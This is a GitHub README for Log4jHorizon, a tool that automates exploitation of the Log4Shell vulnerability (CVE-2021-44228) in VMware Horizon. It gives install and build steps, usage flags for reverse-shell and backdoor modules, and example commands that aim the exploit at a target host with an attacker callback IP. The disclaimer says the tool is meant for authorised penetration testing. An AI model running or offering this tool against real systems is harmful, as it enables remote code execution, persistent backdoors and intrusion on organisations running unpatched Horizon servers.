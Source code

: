 # Log4jHorizon

Exploiting CVE-2021-44228 in VMWare Horizon for remote code execution and more.

* BLOG COMING SOON

Code and README.md this time around are a little scatered. Updates coming!

# Why?

Proof of concepts for this vulnerability are scattered and have to be performed manually. This repository automates the exploitation process. See the blog post above for guidance on post-exploitation.

# Install

This repository can be used manually or with Docker.

### Manual install

To download and run the exploit manually, execute the following steps. First, ensure that Java and Maven are installed on your attacker host. To do this using apt on Debian based operating systems, run the following command:

```
apt update && apt install openjdk-11-jre maven
```

Clone the GitHub repository and install all python requirements:

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jHorizon \
    && cd Log4jHorizon && pip3 install -r requirements.txt
```

From the root of the Log4jHorizon repository, compile the Rogue-Jndi project using the command below:

```
mvn package -f utils/rogue-jndi/
```

### Docker install

First, ensure that Docker is installed on your attacking host. (I am not going to walk you through doing this)

Following that, execute the following command to clone the repository and build the Docker image we will be using.

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jHorizon \
    && cd Log4jHorizon && docker build -t Log4jHorizon .
```

To run the container, run a command similar to the following with your command line flags appended. Note that the container will not catch a reverse shell. You need to create a ncat listener in a separate shell session:

```
docker run -it -p 1389:1389 Log4jHorizon \
    -r -t horizon.acme.com -i 192.168.1.1 -p 4444
```


# Usage

```
usage: exploit.py [-h] -t URL -i CALLBACK [-p PORT] [-r] [-b]

optional arguments:
  -h, --help            show this help message and exit
  -t URL, --target URL  VMWare Horizon IP
  -i CALLBACK, --ip CALLBACK
                        Callback IP for payload delivery and reverse shell.
  -p PORT, --port PORT  Callback port for reverse shell.
  -r, --revshell        Module to establish reverse shell using node.exe.
  -b, --backdoor        Module to add backdoor.
```

# Examples

Get a reverse shell using the tool installed on your local system:

```
python3 exploit.py -r -t horizon.acme.com -p 442 -i 192.168.1.1
```

# Disclaimer
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse of this program.

